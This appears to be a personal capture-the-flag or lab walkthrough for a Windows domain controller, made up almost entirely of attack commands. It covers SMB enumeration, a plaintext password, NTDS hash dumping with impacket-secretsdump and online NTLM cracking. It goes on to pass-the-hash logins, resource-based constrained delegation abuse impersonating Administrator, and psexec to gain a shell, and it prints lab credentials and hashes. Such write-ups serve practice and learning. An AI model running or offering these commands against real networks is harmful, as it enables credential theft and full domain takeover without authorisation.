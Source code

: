 ____

>[!INFO]
> IP=192.168.230.30
> Windows

# Nmap

![[Pasted image 20240208193837.png]]

```bash
smbclient -N \\\\$IP\\nara
```

https://github.com/xct/hashgrab

```bash
crackmapexec smb $IP --users
```

```bash
crackmapexec smb $IP -u 'V.Ventz' -p 'HotelCalifornia194!'
```

```bash
crackmapexec smb $IP -u 'V.Ventz' -p 'HotelCalifornia194!' --spider 'Password Audit' --regex .
```


```bash
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL -outputfile hashes.txt
```

https://md5decrypt.net/en/Ntlm/

Administrator : ItachiUchiha888

```bash
crackmapexec winrm $IP -u users -H hashes.txt.ntds
```

```bash
evil-winrm -i $IP -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
```


# PrivEsc

GenericAll privileges on the Domain Controller

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.229.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```

https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py

```bash
python3 rbcd.py -dc-ip 192.168.229.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```

```bash
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.229.175
```

If you find this **error** from Linux: `**Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)**` it because of your local time, you need to synchronise the host with the DC. 

```bash
sudo rdate -n 192.168.229.175
```

```bash
export KRB5CCNAME=./Administrator.ccache
```

```bash
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.229.175
```
